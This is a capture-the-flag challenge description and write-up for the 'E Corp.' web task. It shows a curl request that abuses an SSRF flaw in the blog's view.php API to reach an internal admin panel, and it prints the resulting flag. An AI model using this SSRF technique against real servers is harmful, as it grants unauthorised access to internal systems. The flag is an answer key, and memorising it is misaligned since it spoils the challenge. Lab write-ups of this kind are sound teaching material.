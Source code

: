 # E Corp.
Your task is to access the admin panel of E Corp. servers. The admin panel is located at `http://admin-panel.local` but it's not accessible from the outside.

E Corp. also has a public blog running at `https://ecorpblog.uctf.ir`

Your task is to access the admin panel.

# Write Up
It's possible to access `http://admin-panel.local` by exploiting an SSRF vulnerability on `api/view.php`

```
$ curl https://ecorpblog.uctf.ir/api/view.php -d '{ "post": "http://admin-panel.local" }'
{"status":"success","post":"uctf{4z174_1n_urm14}"}
```

# Flag
uctf{4z174_1n_urm14}

# Categories
- [x] Web
- [ ] Reverse
- [x] PWN
- [ ] Misc
- [ ] Forensics
- [ ] Cryptography
- [ ] Steganography

# Points
| Warm up | This Challenge | Evil |
| ------- |:--------------:| ----:|
| 25      | 200-250        | 500  |

# Resources
- `blog` contains files for the server hosting E Corp. Blog website.
- `flag` contains files for the server hosting the flag.